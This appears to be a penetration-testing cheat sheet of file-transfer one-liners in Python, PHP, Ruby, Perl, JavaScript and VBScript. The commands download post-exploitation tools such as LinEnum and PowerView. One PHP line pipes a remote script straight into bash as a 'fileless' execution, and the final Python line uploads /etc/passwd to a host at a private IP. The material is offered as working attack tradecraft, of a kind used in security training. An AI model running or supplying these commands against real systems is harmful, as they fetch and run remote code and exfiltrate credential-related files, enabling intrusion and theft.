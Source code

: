 # Python
---
- Python 2 - Download:
	- `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`
- Python 3 - Download:
	- `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`

# PHP
---
- PHP Download with File_get_contents():
	- `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
- PHP Download with Fopen(): ```
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'```

- PHP Download a File and Pipe it to Bash (Fileless):
	- `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`

# Other Languages
---
- Ruby - Download a File:
	- `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`
- Perl - Download a File:
	- `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`

# JavaScript
---
```js
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

- We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file:
- Download a File Using JavaScript and cscript.exe:
- `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1`

# VBScript
---
```vb
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

- Download a File Using VBScript and cscript.exe:
	- `cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`

# Upload Operations using Python3
---
- Starting the Python uploadserver Module:
	- `python3 -m uploadserver `
- Uploading a File Using a Python One-liner:
	- `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`